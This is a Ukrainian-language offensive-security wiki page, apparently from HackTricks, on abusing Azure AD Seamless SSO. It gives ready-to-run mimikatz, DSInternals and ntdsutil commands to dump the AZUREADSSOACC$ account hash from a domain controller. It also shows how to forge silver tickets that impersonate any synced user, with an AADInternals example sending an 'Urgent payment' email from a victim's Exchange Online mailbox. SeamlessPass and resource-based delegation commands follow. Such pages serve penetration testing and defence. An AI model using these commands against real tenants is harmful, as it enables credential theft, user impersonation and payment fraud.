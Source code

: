 # Az - Seamless SSO

{{#include ../../../../banners/hacktricks-training.md}}

## Основна інформація

[З документації:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso) Azure Active Directory Seamless Single Sign-On (Azure AD Seamless SSO) автоматично **авторизує користувачів, коли вони на своїх корпоративних пристроях**, підключених до вашої корпоративної мережі. Коли ця функція увімкнена, **користувачам не потрібно вводити свої паролі для входу в Azure AD**, і зазвичай навіть вводити свої імена користувачів. Ця функція забезпечує вашим користувачам легкий доступ до ваших хмарних додатків без необхідності в додаткових компонентів на місці.

<figure><img src="../../../../images/image (275).png" alt=""><figcaption><p><a href="https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso-how-it-works">https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso-how-it-works</a></p></figcaption></figure>

В основному Azure AD Seamless SSO **авторизує користувачів**, коли вони **на ПК, приєднаному до локального домену**.

Цю функцію підтримують як [**PHS (Синхронізація хешів паролів)**](phs-password-hash-sync.md), так і [**PTA (Аутентифікація через проксі)**](pta-pass-through-authentication.md).

Desktop SSO використовує **Kerberos** для аутентифікації. Коли налаштовано, Azure AD Connect створює **обліковий запис комп'ютера під назвою AZUREADSSOACC`$`** в локальному AD. Пароль облікового запису `AZUREADSSOACC$` **надсилається у відкритому вигляді до Azure AD** під час налаштування.

**Квитки Kerberos** **шифруються** за допомогою **NTHash (MD4)** пароля, а Azure AD використовує надісланий пароль для розшифровки квитків.

**Azure AD** відкриває **кінцеву точку** (https://autologon.microsoftazuread-sso.com), яка приймає **квитки** Kerberos. Браузер комп'ютера, приєднаного до домену, пересилає квитки на цю кінцеву точку для SSO.

### Локальний -> хмара

**Пароль** користувача **`AZUREADSSOACC$` ніколи не змінюється**. Тому доменний адміністратор може скомпрометувати **хеш цього облікового запису**, а потім використовувати його для **створення срібних квитків** для підключення до Azure з **будь-яким синхронізованим локальним користувачем**:
```bash
# Dump hash using mimikatz
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\azureadssoacc$ /domain:domain.local /dc:dc.domain.local"'
mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$" exit

# Dump hash using https://github.com/MichaelGrafnetter/DSInternals
Get-ADReplAccount -SamAccountName 'AZUREADSSOACC$' -Domain contoso -Server lon-dc1.contoso.local

# Dump using ntdsutil and DSInternals
## Dump NTDS.dit
ntdsutil "ac i ntds" "ifm” "create full C:\temp" q q
## Extract password
Install-Module DSInternals
Import-Module DSInternals
$key = Get-BootKey -SystemHivePath 'C:\temp\registry\SYSTEM'
(Get-ADDBAccount -SamAccountName 'AZUREADSSOACC$' -DBPath 'C:\temp\Active Directory\ntds.dit' -BootKey $key).NTHash | Format-Hexos
```
З хешем ви тепер можете **генерувати срібні квитки**:
```bash
# Get users and SIDs
Get-AzureADUser | Select UserPrincipalName,OnPremisesSecurityIdentifier

# Create a silver ticket to connect to Azure with mimikatz
Invoke-Mimikatz -Command '"kerberos::golden /user:onpremadmin /sid:S-1-5-21-123456789-1234567890-123456789 /id:1105 /domain:domain.local /rc4:<azureadssoacc hash> /target:aadg.windows.net.nsatc.net /service:HTTP /ptt"'
mimikatz.exe "kerberos::golden /user:elrond /sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234 /domain:contoso.local /rc4:12349e088b2c13d93833d0ce947676dd /target:aadg.windows.net.nsatc.net /service:HTTP /ptt" exit

# Create silver ticket with AADInternal to access Exchange Online
$kerberos=New-AADIntKerberosTicket -SidString "S-1-5-21-854168551-3279074086-2022502410-1104" -Hash "097AB3CBED7B9DD6FE6C992024BC38F4"
$at=Get-AADIntAccessTokenForEXO -KerberosTicket $kerberos -Domain company.com
## Send email
Send-AADIntOutlookMessage -AccessToken $at -Recipient "someone@company.com" -Subject "Urgent payment" -Message "<h1>Urgent!</h1><br>The following bill should be paid asap."
```
Щоб використати срібний квиток, слід виконати наступні кроки:

1. **Запустіть браузер:** Потрібно запустити Mozilla Firefox.
2. **Налаштуйте браузер:**
- Перейдіть до **`about:config`**.
- Встановіть параметр для [network.negotiate-auth.trusted-uris](https://github.com/mozilla/policy-templates/blob/master/README.md#authentication) на вказані [значення](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso#ensuring-clients-sign-in-automatically):
- `https://aadg.windows.net.nsatc.net`
- `https://autologon.microsoftazuread-sso.com`
3. **Доступ до веб-додатку:**
- Відвідайте веб-додаток, інтегрований з доменом AAD організації. Загальним прикладом є [Office 365](https://portal.office.com/).
4. **Процес аутентифікації:**
- На екрані входу введіть ім'я користувача, залишивши поле пароля порожнім.
- Щоб продовжити, натисніть TAB або ENTER.

> [!TIP]
> Це не обходить MFA, якщо вона увімкнена

#### Варіант 2 без dcsync - SeamlessPass

Цей напад також можна виконати **без атаки dcsync**, щоб бути більш непомітним, як [пояснено в цьому блозі](https://malcrove.com/seamlesspass-leveraging-kerberos-tickets-to-access-the-cloud/). Для цього вам потрібен лише один з наступних:

- **TGT скомпрометованого користувача:** Навіть якщо у вас його немає, але користувач був скомпрометований, ви можете отримати його, використовуючи трюк з делегуванням фальшивого TGT, реалізований у багатьох інструментах, таких як [Kekeo](https://x.com/gentilkiwi/status/998219775485661184) та [Rubeus](https://posts.specterops.io/rubeus-now-with-more-kekeo-6f57d91079b9).
- **Золотий квиток:** Якщо у вас є ключ KRBTGT, ви можете створити TGT, який вам потрібен для атакованого користувача.
- **NTLM хеш або AES ключ скомпрометованого користувача:** SeamlessPass зв'яжеться з контролером домену з цією інформацією, щоб згенерувати TGT.
- **NTLM хеш або AES ключ облікового запису AZUREADSSOACC$:** З цією інформацією та ідентифікатором безпеки (SID) користувача, якого потрібно атакувати, можливо створити сервісний квиток і аутентифікуватися в хмарі (як виконано в попередньому методі).

Нарешті, з TGT можливо використовувати інструмент [**SeamlessPass**](https://github.com/Malcrove/SeamlessPass) з:
```
seamlesspass -tenant corp.com -domain corp.local -dc dc.corp.local -tgt <base64_TGT>
```
Додаткова інформація про налаштування Firefox для роботи з seamless SSO може бути [**знайдена в цьому блозі**](https://malcrove.com/seamlesspass-leveraging-kerberos-tickets-to-access-the-cloud/).

#### ~~Створення квитків Kerberos для користувачів тільки в хмарі~~ <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

Якщо адміністратори Active Directory мають доступ до Azure AD Connect, вони можуть **встановити SID для будь-якого користувача в хмарі**. Таким чином, квитки Kerberos **можна створити також для користувачів тільки в хмарі**. Єдина вимога полягає в тому, що SID є правильним [SID](<https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc778824(v=ws.10)>).

> [!CAUTION]
> Зміна SID для адміністраторів тільки в хмарі зараз **блокована Microsoft**.\
> Для отримання інформації перевірте [https://aadinternals.com/post/on-prem_admin/](https://aadinternals.com/post/on-prem_admin/)

### On-prem -> Cloud через обмежену делегацію на основі ресурсів <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

Будь-хто, хто може керувати обліковими записами комп'ютерів (`AZUREADSSOACC$`) у контейнері або OU, в якому знаходиться цей обліковий запис, може **налаштувати обмежену делегацію на основі ресурсів для облікового запису та отримати до нього доступ**.
```python
python rbdel.py -u <workgroup>\\<user> -p <pass> <ip> azureadssosvc$
```
## Посилання

- [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso)
- [https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/](https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/)
- [https://aadinternals.com/post/on-prem_admin/](https://aadinternals.com/post/on-prem_admin/)
- [TR19: Я у вашому хмарі, читаю електронні листи всіх - злом Azure AD через Active Directory](https://www.youtube.com/watch?v=JEIR5oGCwdg)

{{#include ../../../../banners/hacktricks-training.md}}
